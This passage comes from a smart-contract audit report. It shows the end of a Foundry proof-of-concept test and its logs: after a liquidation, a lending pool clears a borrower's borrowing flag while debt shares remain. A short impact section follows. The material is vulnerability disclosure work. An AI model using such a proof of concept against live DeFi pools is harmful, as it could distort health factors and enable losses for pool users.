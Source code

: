 ```solidity

    DataTypes.PositionBalance memory positionBalance = pool.getBalanceRawByPositionId(address(tokenB), pos);
    console.log('debtShares Before Liq.', positionBalance.debtShares);

    DataTypes.UserConfigurationMap memory userConfig = pool.getUserConfiguration(alice, 0);
    console.log('TokenB isBorrowing Before Liq.', UserConfiguration.isBorrowing(userConfig, reserveDataB.id));

    vm.startPrank(bob);
    vm.expectEmit(true, true, true, false);
    emit PoolEventsLib.LiquidationCall(address(tokenA), address(tokenB), pos, 0, 0, bob);
    pool.liquidateSimple(address(tokenA), address(tokenB), pos, 100 ether); // @audit Tries to cover full debts
    vm.stopPrank();

    positionBalance = pool.getBalanceRawByPositionId(address(tokenB), pos);
    console.log('debtShares After Liq.', positionBalance.debtShares);

    userConfig = pool.getUserConfiguration(alice, 0);
    console.log('TokenB isBorrowing After Liq.', UserConfiguration.isBorrowing(userConfig, reserveDataB.id));
  }
}
```
And here are the logs:
```bash
$ forge test --match-test testLiquidationInvalidUnits -vvv
[⠒] Compiling...
[⠊] Compiling 1 files with Solc 0.8.19
[⠒] Solc 0.8.19 finished in 4.83s
Compiler run successful!

Ran 1 test for test/forge/core/pool/PoolLiquidationPocTests2.t.sol:PoolLiquidationTest2
[PASS] testLiquidationInvalidUnits() (gas: 1172963)
Logs:
  reserveDataB.borrowIndex before Liq. 1252660064369089319656921640
  debtShares Before Liq. 45000000000000000000
  TokenB isBorrowing Before Liq. true
  debtShares After Liq. 9076447170314674990
  TokenB isBorrowing After Liq. false
```

As can be seen from the logs, there are significant amount of debts left but the borrowing flag was set as false.

## Impact

Wrongly setting borrowing status as false will affect the calculation of total debt amount, LTV and health factor, and this incorrect calculation will affect the whole ecosystem of a pool.

## Code Snippet
